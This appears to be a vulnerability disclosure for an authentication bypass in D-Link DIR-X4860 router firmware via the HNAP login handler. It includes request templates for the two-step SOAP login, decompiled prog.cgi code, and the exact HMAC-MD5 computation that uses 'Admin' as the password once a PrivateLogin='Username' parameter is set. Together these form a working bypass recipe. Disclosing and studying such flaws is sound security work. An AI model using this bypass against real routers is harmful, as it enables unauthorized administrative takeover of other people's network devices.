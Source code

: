 ## D-Link DIR-X4860 Routers HNAP PrivateLogin Incorrect Implementation of Authentication Algorithm Authentication Bypass Vulnerability

### 1.Vulnerability description

The specific flaw exists within the handling of HNAP login requests. The issue results from the lack of proper implementation of the authentication algorithm. An attacker can leverage this vulnerability to escalate privileges and execute code in the context of the router.<br>

This vulnerability allows network-adjacent attackers to bypass authentication on affected installations of DIR-X4860 routers. Authentication is not required to exploit this vulnerability.<br>



The vulnerability exists in the latest firmware version ： DIRX4860A1_FWV1.04B03.bin<br>

Firmware download address : https://support.dlink.com/ProductInfo.aspx?m=DIR-X4860-US<br>

### 2.Vulnerability details

#### 2.1 HNAP protocol

Step 1: Send the login request and wait for the response.<br>
The requested packet format is as follows:<br>

```c
Headers:
"Content-Type": "text/xml; charset=utf-8"
"SOAPAction": "http://purenetworks.com/HNAP1/Login"

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <Login xmlns="http://purenetworks.com/HNAP1/">
      <Action>request</Action>
      <Username>Admin</Username>
      <LoginPassword/>
      <Captcha/>
    </Login>
  </soap:Body>
</soap:Envelope>
```

The response data are as follows:<br>

```c
<?xml version="1.0" encoding="UTF-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <LoginResponse xmlns="http://purenetworks.com/HNAP1/">
      <LoginResult>OK</LoginResult>
      <Challenge>........</Challenge>
      <Cookie>........</Cookie>
      <PublicKey>........</PublicKey>
    </LoginResponse>
  </soap:Body>
</soap:Envelope>
```

The response packet returns Challenge, Cookie, PublicKey.<br>

The Cookie is used as the cookie header for all subsequent http requests.<br>

Challenge and PublicKey are used to encrypt the password and generate HNAP_AUTH authentication in the http header.<br>



Step 2: Send the login login and wait for the response.<br>
The requested packet format is as follows:<br>

```xml
Headers:
"Content-Type": "text/xml; charset=utf-8"
"SOAPAction": "http://purenetworks.com/HNAP1/Login"
"HNAP_AUTH": "........"
"Cookie": "uid=........"

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <Login xmlns="http://purenetworks.com/HNAP1/">
      <Action>login</Action>
      <Username>Admin</Username>
      <LoginPassword>........</LoginPassword>
      <Captcha/>
    </Login>
  </soap:Body>
</soap:Envelope>
```

The key values are calculated in the following way:<br>

```
LoginPassword:
	PrivateKey = get_hmac_KEY_md5(PublicKey + password,Challenge)
	LoginPassword = get_hmac_KEY_md5(PrivateKey,Challenge)
uid : 
	uid = Cookie
HNAP_AUTH:
    SOAP_NAMESPACE2 = "http://purenetworks.com/HNAP1/"
    Action = "Login"
    SOAPAction = '"' + SOAP_NAMESPACE2 + Action + '"'
    Time = int(round(time.time() * 1000))
    Time = math.floor(Time) % 2000000000000
    HNAP_AUTH = get_hmac_KEY_md5(PrivateKey,Time + SOAPAction)
```

The response data are as follows:<br>

```
<?xml version="1.0" encoding="UTF-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <LoginResponse xmlns="http://purenetworks.com/HNAP1/">
      <LoginResult>success</LoginResult>
    </LoginResponse>
  </soap:Body>
</soap:Envelope>
```

If the value of LoginResult is success, the authentication succeeds.<br>

If LoginResult is failed, authentication fails.<br>

#### 2.2 Vulnerability analysis

The vulnerability is in the /bin/prog.cgi file.<br>

The vulnerability occurs in the function that handles the login request.<br>

```
int __fastcall sub_5394C(int a1, int a2, int a3, int a4)
{
  int v5; // r1
  char *v6; // r0
  const char *v7; // r5
  const char *v8; // r5
  int v10; // r0
  int v11; // r1
  int v12; // r2
  int v13; // r3

  sub_53074(a1, a2, a3, a4);
  if ( sub_51038(a1) )
  {
    v6 = GetHNAPParam(a1, "/Login/Action");
    v7 = v6;
    if ( v6 )
    {
      if ( !strncmp(v6, "request", 7u) )
      {
        handle_login_request(a1); // into here !!!
        return 1;
      }
      ******
}

int __fastcall handle_login_request(int a1)
{
  char *Username; // r11
  int v3; // r5
  int result; // r0
  const char *PrivateLogin; // [sp+Ch] [bp-84h]
  char s[64]; // [sp+10h] [bp-80h] BYREF
  char v7[64]; // [sp+50h] [bp-40h] BYREF
  char v8[64]; // [sp+90h] [bp+0h] BYREF
  char http_password[64]; // [sp+D0h] [bp+40h] BYREF
  char v10[128]; // [sp+110h] [bp+80h] BYREF

  memset(s, 0, sizeof(s));
  memset(v7, 0, sizeof(v7));
  memset(v8, 0, sizeof(v8));
  memset(http_password, 0, sizeof(http_password));
  memset(v10, 0, sizeof(v10));
  if ( sub_51FE4(a1) )
  {
    sub_5322C(a1, 5);
    result = 0;
  }
  else
  {
    GetHNAPParam(a1, "/Login/Action");
    Username = GetHNAPParam(a1, "/Login/Username");
    GetHNAPParam(a1, "/Login/LoginPassword");
    GetHNAPParam(a1, "/Login/Captcha");
    PrivateLogin = GetHNAPParam(a1, "/Login/PrivateLogin");
    sub_50F98(s, 20);
    sub_50F98(v7, 10);
    sub_50F98(v8, 20);
    if ( PrivateLogin && !strncmp(PrivateLogin, "Username", 8u) )
      strncpy(http_password, Username, 0x40u); // Authentication Bypass!!
    else
      get_http_password(http_password, 0x40u);
    sub_51284(s, http_password, v8, v10, 128);
    v3 = sub_51468(a1, v10, s, v7, v8);
    sub_51094(a1, v7);
    sub_5322C(a1, 0);
    result = v3;
  }
  return result;
}
```

The normal logic in the handle_login_request function is to get the http_password and then generate the PrivateKey from the http_password.<br>

However, when the PrivateLogin parameter is included in the request, and the value of the PrivateLogin parameter is "Username", then the PrivateKey is generated from the value of the Username parameter.<br>

The Username parameter has a known value of "Admin".<br>

This means that when you perform a login login request, you can use "Admin" as the password to calculate the relevant data without knowing the real password:<br>

```
LoginPassword:
	password = ”Admin"
	PrivateKey = get_hmac_KEY_md5(PublicKey + password,Challenge)
	LoginPassword = get_hmac_KEY_md5(PrivateKey,Challenge)
uid : 
	uid = Cookie
HNAP_AUTH:
    SOAP_NAMESPACE2 = "http://purenetworks.com/HNAP1/"
    Action = "Login"
    SOAPAction = '"' + SOAP_NAMESPACE2 + Action + '"'
    Time = int(round(time.time() * 1000))
    Time = math.floor(Time) % 2000000000000
    HNAP_AUTH = get_hmac_KEY_md5(PrivateKey,Time + SOAPAction)
```

This bypasses login authentication.<br>

### 3.Vulnerability exploitation

The effect of the current exploitation is login authentication bypass.